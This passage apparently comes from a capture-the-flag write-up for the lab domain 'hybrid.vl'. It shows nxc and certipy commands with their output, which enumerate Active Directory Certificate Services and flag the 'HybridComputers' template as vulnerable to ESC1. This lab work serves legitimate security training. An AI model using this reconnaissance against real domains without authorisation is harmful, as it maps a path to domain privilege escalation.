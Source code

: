 Nothing interesting. We can check if `ADCS` is configured
```
└─$ nxc ldap 10.10.165.181 -u peter.turner -p '<REDACTED>' -M adcs
SMB         10.10.165.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True) (SMBv1:False)
LDAP        10.10.165.181   389    DC01             [+] hybrid.vl\peter.turner:<REDACTED> 
ADCS        10.10.165.181   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.165.181   389    DC01             Found PKI Enrollment Server: dc01.hybrid.vl
ADCS        10.10.165.181   389    DC01             Found CN: hybrid-DC01-CA

```

Let's run certipy to find if there are vulnerable templates
```
└─$ certipy find -u peter.turner -p '<REDACTED>' -dc-ip 10.10.165.181 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
<SNIP>
Certificate Templates
  0
    Template Name                       : HybridComputers
    Display Name                        : HybridComputers
    Certificate Authorities             : hybrid-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Domain Computers
                                          HYBRID.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : HYBRID.VL\Administrator
        Write Owner Principals          : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Dacl Principals           : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Property Principals       : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
<SNIP>
```
